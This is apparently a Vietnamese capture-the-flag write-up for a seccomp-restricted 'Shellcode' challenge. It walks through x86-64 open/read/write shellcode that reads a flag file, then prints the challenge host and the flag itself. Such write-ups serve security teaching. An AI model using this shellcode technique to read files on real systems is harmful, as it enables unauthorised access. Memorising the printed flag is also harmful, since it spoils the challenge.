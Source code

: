 # ⛳ Shellcode

- Description: dễ mà tự viết đi trên trên mạng không có đâu
  - Bắt buộc dùng open, read, write để đọc flag
  - Không cần quan tâm đến seccomp
  - Dùng syscall ngoài open, read, write sẽ bị khóa
  - nc 45.122.249.68 10017
- Hint:
  - Bạn Nhật Trường có một bài blog tương tự bài này trên x86, thử chuyển code sang x86-64 bạn sẽ giải được bài này link: https://drx.home.blog/2019/04/03/pwnable-tw-orw/

## Write-up:

Disassemble hàm main, ở đây ta thấy có hàm **setup_seccomp** sau khi chúng ta input bằng hàm **read@plt**.

```
0x000000000000132f <+122>:   call   0x10f0 <read@plt>
0x0000000000001334 <+127>:   mov    eax,0x0
0x0000000000001339 <+132>:   call   0x1209 <setup_seccomp>
```

Vào xem thử hàm **setup_seccomp** làm gì trên IDA.

![image](https://user-images.githubusercontent.com/48288606/147545255-85432ebe-de11-4b03-99ee-5edfab194115.png)

Theo như đoạn mã giả và tìm kiếm về seccomp (secure computing mode) thì **setup_seccomp** chỉ là một hàm định nghĩa các rule để giới hạn lại và quy định các **system call**. Đại khái, chương trình thực hiện khởi tạo seccomp rule bằng **seccomp_init()**, thêm rule bởi hàm **seccomp_rule_add()** và ta thấy có 3 dòng để set rule cho 3 system call là "read/ write/ open" và dùng **seccomp_load()** để apply các rule vào kernel.<br>
=> Vậy cho nên theo như hint thì thật ra chúng ta không cần xem đoạn này, hint đã gợi ý chỉ được dùng **open, read, write** trong shellcode để đọc flag.

Khi chạy chương trình ta biết được flag nằm trong file "PhaPhaKhongCoDon.txt"
```
Use open, read, write to get flag, flag is in PhaPhaKhongCoDon.txt
```
### Viết shellcode:

Với 3 system call trên, ta dự định sẽ thực hiện lần lượt: open(mở stream đọc file) -> read(đọc dữ liệu từ stream cho trước và đưa vào buffer) -> write(ghi dữ liệu từ buffer ra output stream). Bây giờ ta sẽ xác định các parameter đưa đúng theo quy ước gọi syscall [tại đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (Table x86_64 (64-bit))

Khởi tạo stack, lưu ý trên x86_64 không push trực tiếp một giá trị hằng vào stack được nên phải thông qua thanh ghi

Code:
```
        'mov r8, %s' % hex(u64('.txt\0\0\0\0')),
        'mov r9, %s' % hex(u64('ongCoDon')),
        'mov r10, %s' % hex(u64('PhaPhaKh')),
        'push r8',
        'push r9', 
        'push r10', 
```

Lệnh open() - [Official manual](https://man7.org/linux/man-pages/man2/open.2.html):
- %rax: 0x02
- arg0 (%rdi): const char \*filename .Ở đây mình sẽ đưa chuỗi "PhaPhaKhongCoDon.txt" vào và vì kiến trúc 64bits nên size tối đa là 8 bytes, còn thiếu thì đệm thêm byte NULL vào chuỗi để không ảnh hưởng quá trình gọi syscall
- arg1 (%rsi): int flags. Chế độ cho stream open. Được định nghĩa trong file `/usr/include/asm-generic/fcntl.h` vì hàm **open()** được tạo trong thư viện **fcntl.h**. Mình có thể search để biết các giá trị này nhanh hơn. Do ban đầu đọc manual mình không rõ cách truyền vào mấy flags này nên mới đào sâu vậy 😊. Ở đây mình chỉ đọc (O_RDONLY) nên dùng **0x0**.
```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
```

Code:
```
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rdi, rsp',
        'mov rax, 0x2',
        'syscall',
```

- arg2 (%rdx): umode_t mode. (Định nghĩa permission cho file). Ta dùng **0x0** 
- Return value: trả về file descriptor lưu trong rax.

Lệnh read() - [Official manual](https://man7.org/linux/man-pages/man2/read.2.html). Tương tự:
- %rax: 0x00
- arg0 (%rdi): unsigned int fd. Đưa file descriptor từ stream open ở trên vào. 
- arg1 (%rsi): char \*buf. Nhét chuỗi trên vào
- arg2 (%rdx): size_t count. Size của buffer để đọc, cho tùy ý miễn đủ đọc flag.
- Return value: Số lượng byte được đọc thật sự được trả về

Code:
```
        'mov rsi, rsp',
        'mov rdi, rax',  
        'mov rdx, 0x100',
        'mov rax, 0x0',  
        'syscall',
```
Lệnh write() - [Official manual](https://man7.org/linux/man-pages/man2/write.2.html). Tương tự:
- %rax: 0x01
- arg0 (%rdi): unsigned int fd. File descriptor đưa ra ngoài output nên phải dùng stream của STDOUT là **0x1**
- arg1 (%rsi): const char \*buf. Tham số này không quan trọng vì ta đã xác định đưa chuỗi ký tự cần ghi ra ngoài STDOUT stream rồi
- arg2 (%rdx): size_t count

Code:
```
        'mov rdi, 0x1',
        'mov rdx, rax',
        'mov rax, 0x1',
        'syscall'
```

Tham khảo shellcode hoàn chỉnh [tại đây](Shellcode/shellcode.py)


Flag: **Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**
